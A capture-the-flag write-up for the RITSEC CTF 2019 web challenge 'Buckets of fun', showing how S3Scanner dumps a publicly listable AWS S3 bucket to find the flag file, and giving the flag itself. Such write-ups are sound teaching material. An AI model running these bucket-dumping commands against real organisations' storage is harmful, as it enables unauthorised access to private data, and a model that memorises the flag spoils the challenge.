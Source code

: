 # RITSEC CTF 2019 – Buckets of fun

* **Category:** web
* **Points:** 100

## Challenge

> http://bucketsoffun-ctf.s3-website-us-east-1.amazonaws.com/
> 
> Author: scriptingislife

## Solution

The title of the challenge is an hint to insecure/public AWS S3 buckets, so [S3Scanner](https://github.com/sa7mon/S3Scanner) can be used to easily dump the content.

```
root@m3ss4p0:~# git clone https://github.com/sa7mon/S3Scanner.git
root@m3ss4p0:~# cd S3Scanner/
root@m3ss4p0:~/S3Scanner# chmod u+x s3scanner.py
root@m3ss4p0:~/S3Scanner# pip install -r requirements.txt 
root@m3ss4p0:~/S3Scanner# python3 ./s3scanner.py --dump bucketsoffun-ctf.s3-website-us-east-1.amazonaws.com
root@m3ss4p0:~/S3Scanner# cd buckets/bucketsoffun-ctf/
root@m3ss4p0:~/S3Scanner/buckets/bucketsoffun-ctf# ll
totale 8
-rw-r--r-- 1 root root 630 nov 16 09:15 index.html
-rw-r--r-- 1 root root  25 nov 16 09:15 youfoundme-asd897kjm.txt
root@m3ss4p0:~/S3Scanner/buckets/bucketsoffun-ctf# cat youfoundme-asd897kjm.txt
RITSEC{LIST_HIDDEN_FILES}
```

The flag is the following.
```
RITSEC{LIST_HIDDEN_FILES}
```